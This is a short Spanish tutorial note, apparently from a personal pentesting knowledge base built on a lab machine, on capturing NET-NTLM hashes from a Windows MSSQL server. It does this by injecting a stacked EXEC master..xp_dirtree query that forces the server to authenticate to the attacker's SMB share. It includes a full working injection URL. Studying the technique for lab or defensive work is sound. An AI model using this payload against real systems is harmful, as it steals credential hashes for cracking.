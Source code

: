 Si estamos ante un servidor Windows en el que vemos un potencial ataque SQL Injection, mediante el uso de xp_dirtree vamos a lograr un intento de autenticación a nuestro servidor smb local en el que podremos obtener el hash NET-NTLM del usuario y poder crackearlo por fuerza bruta.

Como en MSSQL podemos stackear queries, vamos a hacer una consulta a cualquier pagina con su identificador, y mediante el uso de los dos puntos, vamos a concatenar `EXEC master..xp_dirtree '\\10.10.14.21\smbserver\'`.
Tenemos que poner nuestra IP Local y el recurso que estamos compartiendo de manera simultanea.

Esto dentro de una SQL Injection quedaría de tal manera: `https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=36;%20EXEC%20master..xp_dirtree%20%27\\10.10.14.21\smbserver\%27;%20--`

Por el otro lado, en local, vamos a recibir una autenticación y vamos a tener un hash a crackear por fuerza bruta:

![image](https://github.com/SrMeirins/KnowledgeVault/assets/95763783/0acd2c41-e9ad-4827-81fb-1daec656de94)
